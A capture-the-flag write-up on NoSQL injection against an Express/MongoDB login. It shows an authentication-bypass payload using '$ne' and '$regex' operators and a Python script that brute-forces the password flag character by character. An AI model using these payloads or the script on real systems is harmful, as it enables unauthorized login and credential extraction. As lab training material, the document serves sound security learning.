

# NoSQL Injection

### Challenge
Provide Text :  The Mark LXXXV suit needs an urgent firmware upgrade.
![[Pasted image 20220224071532.png]]

### Approach

#### Application Overview

- Application Stack
	WebServer : Express (Node.js web application server )
	![[Pasted image 20220224071626.png]]
	Fevicon : MongoDB (NoSQL Database)
	![[Pasted image 20220224061124.png]]

- App Intraction
	The main.js send POST request to API /api/login with params ```username``` and ```password``` and response is not verbose
	![[Pasted image 20220224062528.png]]

	``` JavaScript
	const login = document.getElementById('login');
	const response = document.getElementById('response');

	login.addEventListener('submit', e => {

		e.preventDefault();

		fetch('/api/login', {
			method: 'POST',
			body: new URLSearchParams(new FormData(e.target))
		})
		.then(resp => resp.json())
		.then(data => {
			if (data.logged) {
				login.remove();
				response.innerHTML = data.message;
			} else {
				response.innerHTML = data.message;
			}
		});
	});
	```

#### Exploit

MongoDB is a NoSQL Database which uses JSON Object similar syntax to store data as documents. MongoDB uses BSON (Binary JSON) data format so the direct SQL injection is not possible, but some JSON and unserialized JavaScript expressions are permitted. For MongoDB, the most common such operator is `$where` which filters the results similarly to WHERE in SQ.
If the request body is encoded as JSON and the password is changed from a string to a query expression that evaluates to true, the password check becomes irrelevant and an attacker can authenticate themself as any user.

- Validating NoSQL injection
Sending the following query string as the NodeJS module `qs` parses the query string to the JSON and we have injection validated

```
username[$eq]=admin&password[$ne]=1
```

![[Pasted image 20220224064240.png]]

- Guess the legth of password
As the flag is the password and we have to sort of perform a brutforce to extract the password.

\$regex will be used to perform regular expression search ```password[$regex]=.{n} ```, where n is the +ive number.  
.{n} will match to all the value till the length of the password and after that return error.

Using Burp intruder

![[Pasted image 20220224065002.png]]

The response leght after 45 is 233 which means password length in 45 characters.

![[Pasted image 20220224065122.png]]

- Retrieving flag

The flag will be in format knox{XXXXXXXXXXXXX}, these are 6 characters and total lenght of password is 45 thus 39 character left.

Using `$regex`  we can retrieve the password as well.
```username=admin&password[$regex]=knox\{a.*```
The regex will return true if first character in braces is a and anything after that, thus we use the same logic in our code.



```Python
#!/usr/bin/python3  
import re  
import requests  
  
def main():  
	url = 'http://:9000/api/login'
	proxy= {  
	'http': 'http://127.0.0.1:8080'
	}
	headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}  
	fail_msg = re.compile('Failed')  
	flag = "knox\{"  
	mydata = "username=admin&password[$regex]="  
	alphabates= ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_','A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']

	print("Starting printing flag")  

	for r in range(39):  
		for i in alphabates:  
			postdata = mydata+flag+i+'.*'  
			#print(postdata)  
			res=requests.post(url,headers=headers,data = postdata,proxies=proxy)  
			checkresp = re.search('Failed',res.text)  
			if (checkresp):  
			#print('wrong')  
				pass  
			else:  
				flag=flag+i  
				print(flag,end='\r')  
				break  
				print(flag+'\}')  
  
if __name__ == '__main__':  
	main()
```
